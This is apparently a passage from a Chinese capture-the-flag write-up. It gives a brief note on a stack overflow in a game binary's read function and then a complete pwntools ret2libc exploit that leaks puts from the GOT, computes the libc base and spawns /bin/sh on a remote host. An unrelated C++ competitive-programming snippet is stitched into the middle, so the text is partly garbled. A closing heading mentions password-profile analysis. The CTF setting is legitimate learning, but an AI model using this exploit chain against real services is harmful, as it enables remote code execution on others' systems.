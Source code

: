 read函数存在栈溢出漏洞。分析程序可知，v6的值随着角色每次移动都会增大，所以只需要先让角色移动一定长度后再通过游戏即可让v6的大小大于栈长度，实现栈溢出。

```python
payload = 0x570 * b'da' + b'ddwwwwssdwwssassdwwwsssdww'
```

xxxxxxxxxx void print(ll n){    ll d = n / 4;    if(n % 4 == 0){        cout << d << ' ' << d << ' ' << d * 2 << '\n';    }else if(n % 4 == 1){        cout << 1 << ' ' << (n - 1) / 2 << ' ' << (n - 1) / 2 << '\n';    }else if(n % 4 == 2){        cout << 2 << ' ' << (n - 2) / 2 << ' ' << (n - 2) / 2 << '\n';    }else{        cout << 1 << ' ' << (n - 1) / 2 << ' ' << (n - 1) / 2 << '\n';    }}void solve(){    ll n, k;    cin >> n >> k;    if(k == 3){        print(n);    }else{        for(int i = 1; i <= k - 3; i++)            cout << 1 << ' ';        n -= k - 3;        print(n);    }}c++

```python
from pwn import *
context(os='linux',arch='amd64',log_level = 'debug')
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
p = remote("222.67.132.186",23267)
elf = ELF('./game')
_libc = ELF('./libc.so.6')
pop_rdi_addr = 0x400cf3
ret_addr = 0x400576
main_addr = 0x4006D7
_p_libc_system = _libc.symbols['system']
_p_libc_binsh = _libc.search(b'/bin/sh').__next__()
_p_libc_puts = _libc.symbols['puts']
puts_plt = elf.plt['puts'] #puts函数的入口地址
puts_got = elf.got['puts']  #puts函数的got表地址
payload = 0x570 * b'da' + b'ddwwwwssdwwssassdwwwsssdww'
p.sendline(payload)
payload2 = 0x570 * b'A' + 0x8 * b'A' + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter( b'Grandmaster, Please leave your name:',payload2)
real_puts_addr = get_addr()
print(hex(real_puts_addr))
libc_base = real_puts_addr - _p_libc_puts
p_system = libc_base  + _p_libc_system
p_binsh = libc_base  + _p_libc_binsh
p.sendline(payload)
payload3 = 0x570 * b'A' + 0x8 * b'A' + p64(ret_addr) + p64(pop_rdi_addr) + p64(p_binsh) + p64(p_system)
p.sendlineafter( b'Grandmaster, Please leave your name:',payload3)
p.interactive()
```

# 数据安全

### 口令画像分析一 & 二

按照题目约束条件，编写程序分析即可。

![11](/images/B11.png)

